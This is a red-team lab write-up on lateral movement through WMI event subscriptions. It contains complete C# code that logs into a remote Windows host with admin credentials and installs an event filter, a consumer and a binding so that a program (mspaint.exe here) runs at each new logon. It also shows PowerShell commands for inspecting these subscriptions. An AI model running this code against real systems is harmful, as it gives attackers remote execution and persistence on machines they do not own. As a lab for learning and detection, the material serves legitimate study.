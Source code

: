 ```yaml
---
layout: post
title: "lateral movement via wmi events"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /lateral-movement/
---
```


# Lateral Movement via WMI Event Subscription

This is a quick lab to familiariaze with a lateral movement technique using WMI events, as described in [@domchell](https://twitter.com/domchell) aricle [I Like to Move It: Windows Lateral Movement Part 1 – WMI Event Subscription](https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/) - go check it out for more details, including detection ideas.

See my other lab related to persistence using WMI events:

{% content-ref url="../persistence/t1084-abusing-windows-managent-instrumentation/" %}
[t1084-abusing-windows-managent-instrumentation](../persistence/t1084-abusing-windows-managent-instrumentation/)
{% endcontent-ref %}

## Walkthrough

The below C# code for WMI events based lateral movement does a couple of things:

| Line                              | Action                                                                                                                                                                                                                                                                             |
| --------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| 29 - 33                           | Connects to the remote endpoint `192.168.56.105` using local admin credentials `spotless:123456`                                                                                                                                                                                   |
| 33 - 46                           | <p>Creates a new WMI filter <code>evilSpotlessFilter</code> on <code>192.168.56.105</code>. <br>It will get triggered when a new logon session is created on <code>192.168.56.105</code></p>                                                                                       |
| 49 - 52                           | <p>Creates a WMI consumer <code>evilSpotlessConsumer</code> on <code>192.168.56.105</code>. <br>This consumer executes <code>mspaint.exe</code> on <code>192.168.56.105</code>, when the filter <code>evilSpotlessFilter</code> is triggered (upon new logon session creation)</p> |
| 55 - 58                           | WMI filter `evilSpotlessFilter` and WMI consumer `evilSpotlessConsumer` are bound. In layman's terms, the system `192.168.56.105` is instructed to **DEFINITELY** fire `mspaint.exe` on each new logon session that is created on the system.                                      |

```csharp
// code completely stolen from @domchell article 
// https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/
// slightly modified to accommodate this lab

using System;
using System.Collections.Generic;
using System.Linq;
using System.Text;
using System.Threading.Tasks;
using System.Management;

namespace wmisubscription_lateralmovement
{
    class Program
    {
        static void Main(string[] args)
        {

            // Connect to remote endpoint for WMI management
            string NAMESPACE = @"\\192.168.56.105\root\subscription";

            ConnectionOptions cOption = new ConnectionOptions();
            ManagementScope scope = null;
            scope = new ManagementScope(NAMESPACE, cOption);
            
            scope.Options.Username = "spotless";
            scope.Options.Password = "123456";
            scope.Options.Authority = string.Format("ntlmdomain:{0}", ".");
            
            scope.Options.EnablePrivileges = true;
            scope.Options.Authentication = AuthenticationLevel.PacketPrivacy;
            scope.Options.Impersonation = ImpersonationLevel.Impersonate;
            scope.Connect();

            // Create WMI event filter
            ManagementClass wmiEventFilter = new ManagementClass(scope, new ManagementPath("__EventFilter"), null);

            string query = "SELECT * FROM __InstanceCreationEvent Within 5 Where TargetInstance Isa 'Win32_LogonSession'";
            WqlEventQuery myEventQuery = new WqlEventQuery(query);

            ManagementObject myEventFilter = wmiEventFilter.CreateInstance();
            myEventFilter["Name"] = "evilSpotlessFilter";
            myEventFilter["Query"] = myEventQuery.QueryString;
            myEventFilter["QueryLanguage"] = myEventQuery.QueryLanguage;
            myEventFilter["EventNameSpace"] = @"root\cimv2";
            myEventFilter.Put();

            // Create WMI event consumer
            ManagementObject myEventConsumer = new ManagementClass(scope, new ManagementPath("CommandLineEventConsumer"), null).CreateInstance();
            myEventConsumer["Name"] = "evilSpotlessConsumer";
            myEventConsumer["ExecutablePath"] = "mspaint.exe";
            myEventConsumer.Put();

            // Bind filter and consumer
            ManagementObject  myBinder = new ManagementClass(scope, new ManagementPath("__FilterToConsumerBinding"), null).CreateInstance();
            myBinder["Filter"] = myEventFilter.Path.RelativePath;
            myBinder["Consumer"] = myEventConsumer.Path.RelativePath;
            myBinder.Put();

            // Cleanup
            // myEventFilter.Delete();
            // myEventConsumer.Delete();
            // myBinder.Delete();

        }
    }
}
```

## Observations

Once `connect` method is called, a couple of connections from the attacking machine (top right) are initiated to the target machine `192.168.56.105` (bottom right) over port TCP 135 (traffic receiver is svchost.exe as it's hosting the RPC service through which we are communicating):

![](<../../.gitbook/assets/image (655).png>)

After the code has executed, it will have created the WMI event filters, consumers and bind them on the target host `192.168.56.105`.

On the target host, we can check if the said filters and consumers were created like so:

```csharp
# view wmi filters
Get-WmiObject -Class __EventFilter -Namespace root\subscription

# view wmi consumers
Get-WmiObject -Class __EventConsumer -Namespace root\subscription

# view bindings
Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```

Below shows output of the `evilSpotlessFilter` WMI filter we created on the target system:

![](<../../.gitbook/assets/image (656).png>)

## Demo

Below shows the WMI events based lateral movement technique in action:

* On the left, we compile and run the code that creates WMI event filters, consumers and binds them together
* In the top right corner - ther is a ProcMon that is set to capture when a new `mspaint.exe` process starts. In our case, it should start once there is a new logon session created on the system (remember, because of the `evilSpotlessFilter`)
* In the bottom right corner there is a powershell console initiating a new logon session with `runas.exe`. Once the authentication succeeds, a new logon session is created, cmd.exe is spawned and the WMI event filter `evilSpotlessFilter` is triggered and WMI event consumer `evilSpotlessConsumer` kicks off the `mspaint.exe`:

![](../../.gitbook/assets/wmi-events-lateralmovement.gif)

## References

{% embed url="https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/" %}

{% embed url="https://docs.microsoft.com/en-us/windows/win32/wmisdk/commandlineeventconsumer" %}
@spotheplanet
